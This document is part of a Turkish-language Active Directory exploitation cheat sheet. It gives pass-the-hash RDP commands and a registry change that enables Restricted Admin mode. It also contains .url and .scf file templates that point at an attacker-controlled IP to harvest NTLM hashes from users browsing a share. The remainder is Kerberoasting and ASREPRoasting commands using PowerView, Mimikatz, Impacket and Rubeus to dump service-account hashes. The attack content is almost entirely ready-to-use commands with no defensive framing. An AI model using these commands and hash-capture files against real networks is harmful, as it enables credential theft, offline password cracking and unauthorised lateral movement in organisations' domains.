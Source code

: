 # Active Directory Exploitation Cheat Sheet - Bölüm 4

## xFreeRDP Kullanımı

- **xFreeRDP Komutları:**  
  ```
  xfreerdp +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8 /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
  ```

- **Restricted Admin Modunu Etkinleştirme:**  
  Eğer uzak makinede Restricted Admin modu devre dışıysa, aşağıdaki kayıt anahtarını oluşturarak etkinleştirebilirsiniz:
  ```powershell
  New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType DWORD
  ```

## URL Dosya Saldırıları

### .url Dosyası
```plaintext
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<AttackersIp>\%USERNAME%.icon
IconIndex=1

[InternetShortcut]
URL=file://<AttackersIp>/leak/leak.html
```

### .scf Dosyası
```plaintext
[Shell]
Command=2
IconFile=\\<AttackersIp>\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

- **Not:** Bu dosyalar yazılabilir bir paylaşımda bırakıldığında, kurban yalnızca dosya gezgini ile paylaşıma göz atmalı ve dosya açılmasa bile hash yakalama işlemi gerçekleşebilir.
- **Dikkat:** .scf dosya saldırıları Windows'un en son sürümlerinde çalışmaz.
- **Hash Yakalama İçin Araç:** Responder kullanabilirsiniz.

## Faydalı Araçlar

- **Powercat:** PowerShell ile yazılmış bir netcat. Tünelleme, aktarma ve port yönlendirme özellikleri sağlar.
- **SCShell:** Fileless lateral movement aracı, ChangeServiceConfigA'ya dayanır.
- **Evil-Winrm:** WinRM shell aracı.
- **RunasCs:** Windows'un dahili `runas.exe` aracının açık kaynaklı bir versiyonu.
- **ntlm_theft:** URL dosya saldırıları için gerekli tüm dosya formatlarını oluşturur.

## Domain Yetki Yükseltme

### Kerberoast

- **Nedir?:** Standart bir domain kullanıcısı, tüm servis hesaplarının şifre hash'lerini içeren bir kopyasını talep edebilir. Bu hash'ler çevrimdışı brute-force ile kırılabilir.

#### PowerView Kullanımı:
```powershell
# Servis Hesabı Olarak Kullanılan Kullanıcı Hesaplarını Al
Get-NetUser -SPN
# Tüm SPN hesaplarını al, TGS iste ve hash'lerini dump et
Invoke-Kerberoast
# Belirli bir hesap için TGS iste
Request-SPNTicket
# Tüm biletleri dışa aktar
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### AD Modülü Kullanımı:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

#### Impacket Kullanımı:
```bash
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
```

#### Rubeus Kullanımı:
```bash
# Tüm SPN hesaplarını kerberoast formatında dump et
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
# AES etkin hesaplar dışında kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
# AES etkin hesapları kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
# Belirli bir kullanıcı hesabını kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
# Kimlik bilgileri belirterek kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

### ASREPRoast

- **Nedir?:** Eğer bir domain kullanıcı hesabı Kerberos preauthentication gerektirmiyorsa, geçerli bir TGT isteyebilir ve şifre hash'ini brute-force ile çevrimdışı kırabilirsiniz.

#### PowerView Kullanımı:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

#### AD Modülü Kullanımı:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
